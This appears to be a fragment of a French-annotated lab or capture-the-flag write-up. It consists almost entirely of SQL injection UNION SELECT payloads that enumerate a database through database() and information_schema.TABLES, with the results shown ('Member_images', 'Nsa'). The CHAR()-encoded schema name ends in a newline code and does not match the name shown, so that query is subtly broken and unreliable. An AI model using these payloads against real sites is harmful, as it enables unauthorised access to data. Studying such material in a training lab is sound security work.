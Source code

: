     1 UNION SELECT 1, 2
    1 UNION SELECT 1, database()
        Cela affiche: Member_images

    1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,105,109,97,103,101,115,10)
       Cela affiche: Nsa
